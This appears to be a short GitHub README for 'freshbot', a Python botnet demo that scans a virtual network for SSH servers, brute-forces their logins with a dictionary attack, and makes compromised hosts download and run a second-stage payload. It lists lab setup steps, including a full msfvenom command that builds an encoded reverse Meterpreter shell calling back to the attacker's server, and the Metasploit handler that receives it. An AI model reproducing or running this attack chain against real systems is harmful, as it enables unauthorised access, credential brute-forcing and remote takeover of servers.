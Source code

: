 # freshbot
Demonstration of a simple botnet written in Python.<br>
<br>
"scan_drop.py" scans virtual network, if it finds a node with ssh<br>
running on it performs a dictionary attack. If the credentials are correctly<br>
provided, RCE directs target to download 2nd payload & execute.<br>
2nd stage payload is a reverse meterpreter shell to C&C.
<br>
<h3>Environment & Setup</h3>
1. Our Attack machine: <h4>Linux kali 4.16.0-kali2-amd64</h4>
2. Create Web Server: <h4>192.168.203.1/evil_file</h4>
3. 4 target ssh servers on the same virtual network: <h4>ubuntu-16.04.5-desktop-amd64</h4>
&nbsp;&nbsp;&nbsp;192.168.203.150<br>
&nbsp;&nbsp;&nbsp;192.168.203.151<br>
&nbsp;&nbsp;&nbsp;192.168.203.152<br>
&nbsp;&nbsp;&nbsp;192.168.203.153<br>
<br>
4. Create payload: <h4>msfvenom --payload linux/x86/meterpreter_reverse_tcp LPORT=443 LHOST=192.168.203.1 -e shikata_ga_nai -f elf -a x86 -o evil_file</h4>
5. msf5 > <h4>exploit/multi/handler module</h4>
6. scan_drop.py <h4>Scan, Dictionary Attack, RCE.</h4>
